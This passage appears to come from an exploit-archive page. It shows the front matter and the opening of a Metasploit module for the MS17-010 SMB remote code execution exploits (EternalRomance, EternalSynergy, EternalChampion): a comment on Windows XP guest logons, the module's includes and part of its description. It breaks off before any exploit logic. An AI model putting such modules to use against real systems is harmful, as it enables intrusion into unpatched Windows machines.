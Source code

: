 ```yaml
---
title: "Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code Execution (Metasploit) (MS17-010)"
date: 2020-10-22T10:57:56-03:00
draft: false
type: "rce"
platform: "windows"
---
```




# Windows XP systems that are not part of a domain default to treating all
# network logons as if they were Guest. This prevents SMB relay attacks from
# gaining administrative access to these systems. This setting can be found
# under:
#
#  Local Security Settings >
#   Local Policies >
#    Security Options >
#     Network Access: Sharing and security model for local accounts

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::SMB::Client::Psexec_MS17_010
  include Msf::Exploit::Powershell
  include Msf::Exploit::EXE
  include Msf::Exploit::WbemExec
  include Msf::Auxiliary::Report

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution',
      'Description'    => %q{
        This module will exploit SMB with vulnerabilities in MS17-010 to achieve a write-what-where
        primitive. This will then be used to overwrite the connection session information with as an
        Administrator session. From there, the normal psexec payload code execution is done.
